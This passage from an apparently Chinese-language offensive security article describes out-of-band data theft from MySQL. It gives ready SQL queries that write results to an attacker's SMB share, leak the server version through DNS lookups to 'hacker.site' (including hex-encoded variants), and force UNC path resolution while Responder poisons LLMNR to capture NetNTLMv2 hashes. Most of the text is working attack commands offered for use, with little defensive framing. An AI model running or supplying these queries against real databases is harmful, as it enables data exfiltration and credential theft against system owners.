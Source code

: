在MySQL中，我们可以使用一个共享文件系统当做提取数据的替代渠道。



```
select @@version into outfile '\\192.168.0.100\temp\out.txt';
select @@version into dumpfile '\\192.168.0.100\temp\out.txt';
select @@version into outfile '//192.168.0.100/temp/out.txt';
select @@version into dumpfile '//192.168.0.100/temp/out.txt';
```

注意，如果引用被过滤，那么你就无法使用十六进制会话或者其他格式作为文件路径。

使用DNS解析提取数据

另外一种方法就是使用DNS解析。



```
select load_file(concat('\\',version(),'.hacker.site\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874));
```

你可以清楚地看到5.6.34版本跟DNS查询是一起被发送的。

[![](https://p1.ssl.qhimg.com/t0156a640983063c017.png)](https://p1.ssl.qhimg.com/t0156a640983063c017.png)

当MySQL尝试解析DNS查询时，我们能够记录DNS请求并成功地从hacker.site的DNS服务器中成功提取数据。数据被记录为一个子域。

[![](https://p2.ssl.qhimg.com/t0167a615c16615e3f6.png)](https://p2.ssl.qhimg.com/t0167a615c16615e3f6.png)

提取数据时，要注意你处理的是DNS请求，不能使用特殊字符。要使用MySQL字符串函数如mid、substr、replace等处理这些情况。

<br>

**窃取NetNTLM哈希**

如你所见，’load_file’和’into outfile/dumpfile’跟Windows下的UNC路径运行良好。它可被用于解析一个不存在的路径，而且当DNS失败时，这个请求可被发送为LLMNR、NetBIOS-NS查询。通过投毒LLMNR协议，我们可以捕获到NTLMv2哈希。

[![](https://p1.ssl.qhimg.com/t018a6eb095274e4a4a.png)](https://p1.ssl.qhimg.com/t018a6eb095274e4a4a.png)

我们在攻击中可用到的工具包括：

Responder

Ilmnr_response

MiTMf

在这个例子中，我会使用Responder。我在Windows 8 的64位计算机中运行MySQL 5.6.34版本。

```
responder -I eth0 -rv
```

然后，我们可以使用load_file、into outfile/dumpfile或load data infile来解析一个无效的UNC路径。



```
select load_file('\\error\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\error\abc';
select 'osanda' into outfile '\\error\abc';
load data infile '\\error\abc' into table database.table_name;
```
